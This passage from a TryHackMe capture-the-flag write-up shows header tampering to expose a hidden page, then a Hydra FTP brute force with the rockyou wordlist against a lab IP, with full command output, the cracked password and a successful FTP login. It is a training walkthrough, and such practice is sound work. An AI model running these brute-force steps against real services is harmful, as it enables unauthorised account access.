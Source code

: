 ![image](Pasted%20image%2020250916102922.png)
here change the user-agent to C and forward you can then turn off intercept going to browser you will be in a different web page 
![image](Pasted%20image%2020250916103151.png)
so from this the agent with codename C is chris and his password is weak
lets brute force it since in tryhackme asks for ftp password lets do ftp brute force using hydra
```

hydra -l chris  -P /usr/share/wordlists/rockyou.txt 10.201.32.87 ftp      
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret servi  
ce organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anywa  
y).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-16 10:43:54  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previou  
s session found, to prevent overwriting, ./hydra.restore  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tri  
es per task  
[DATA] attacking ftp://10.201.32.87:21/  
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344183 to do in 1106:49h, 16 active  
[21][ftp] host: 10.201.32.87   login: chris   password: crystal  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-16 10:45:19
```
now that we have it lets login to ftp 
```
ftp 10.201.32.87  
Connected to 10.201.32.87.  
220 (vsFTPd 3.0.3)  
Name (10.201.32.87:nobu): chris  
331 Please specify the password.  
Password:    
230 Login successful.  
Remote system type is UNIX.  
```